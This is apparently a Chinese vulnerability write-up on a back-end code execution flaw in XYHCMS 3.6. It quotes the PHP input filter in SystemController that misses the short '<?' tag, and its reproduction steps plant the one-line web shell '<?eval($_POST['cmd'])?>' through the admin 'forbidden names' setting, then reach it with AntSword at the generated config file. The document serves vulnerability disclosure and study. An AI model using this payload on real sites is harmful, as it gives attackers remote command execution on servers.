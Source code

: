 XYHCMS 3.6 后台代码执行漏洞（二）
=================================

一、漏洞简介
------------

二、漏洞影响
------------

XYHCMS 3.6

三、复现过程
------------

### 漏洞分析

`/App/Manage/Controller/SystemController.class.php`

    public function site() {
            if (IS_POST) {
                $data = I('config', array(), 'trim');
                //<script\s+language[\s=]+["\']*php["\']*[^>]*?\>.*?<\/script>
                $preg_param = '/<script\s+language[\s=]+["\']*php["\']*[^>]*?\>/is';
                foreach ($data as $key => $val) {
                    if (stripos($val, '<?php') !== false) {
                        $data[$key] = preg_replace('/<\?php(.+?)\?>/i', '', $val);
                    }
    ————————————————————————————————————————————————————————————————————————————
                    if (stripos($val, '<script') !== false && stripos($val, 'php') !== false) {
                        $data[$key] = preg_replace('/<script\s+language[\s=]+["\']*php["\']*[^>]*?\>.*?<\/script>/i', '', $val);
                    }
                    if (stripos($data[$key], '<?php') !== false || preg_match($preg_param, $data[$key])) {
                        $this->error('禁止输入php代码');
                    }
                }
                ————————————————————————————————————————————————————————————————————————————

### 漏洞复现

1.  进入后台

2.  系统设置-\>网站设置-\>会员配置-\>禁止使用的名称    ![1.png](./.resource/XYHCMS3.6后台代码执行漏洞(二)/media/rId26.png){width="5.833333333333333in"
    height="2.553546587926509in"}

-   <?eval($_POST['cmd'])?>

3.  访问漏洞文件,蚁剑连接

-   `http://localhost/App/Runtime/Data/config/site.php`

    POST数据：`cmd=phpinfo();`
